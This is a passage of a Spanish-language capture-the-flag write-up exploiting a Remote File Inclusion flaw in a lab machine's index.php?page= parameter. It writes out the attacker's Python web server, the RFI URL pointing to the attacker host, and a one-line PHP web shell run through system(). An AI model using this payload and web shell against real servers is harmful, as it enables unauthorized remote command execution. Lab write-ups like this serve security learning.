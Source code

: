 Igual si vemos el codigo fuente podemos ver lo mismo:

```html
<nav>
        <ul>
            <li><a href="index.php?page=home">Home</a></li>
            <li><a href="index.php?page=cars">Cars</a></li>
            <li><a href="index.php?page=maintenance_and_repair">Maintenance & Repair</a></li>
            <li><a href="index.php?page=about">About</a></li>
            <li><a href="index.php?page=contact">Contact</a></li>
        </ul>
    </nav>
```

Cuando tenemos casos asi de que se incluyen paginas y que ademas se pueda ver en la URL, como nuestro caso (index.php?page=cars), es un indicio para probar LFI (Local File Inclusion) o RFI (Remote File Inclusion)

## Explotacion (RFI - Remote File Inclusion)

**RFI**: Remote File Inclusion es una vulnerabilidad que permite incluir archivos externos y/o remotos al servidor web

Como mencione, la idea es lograr incluir archivos externos, por lo que, para probar, podemos crearnos un servidor web con python  y ver si recibimos una peticion de la maquina victima

```bash
python3 -m http.server 8080
```
Ahora en la URL del sitio web pondremos:

```ruby
http://192.168.1.88/index.php?page=http://192.168.1.73:8080/
```

Y nos llega una peticion:

![](/assets/img/quick/2.png)

Oberva que en la peticion que hizo, esta esperando por archivos con extension .php: **GET /.php HTTP/1.0**

Ahora para poder "subir" una web shell debemos de hacer lo mismo, pero indicarle un archivo php que queremos, en mi caso creare este:

```php
<?php system($_GET[cmd]); ?>
```
Y observa como se realizo la peticion correctamente

![](/assets/img/quick/3.png)
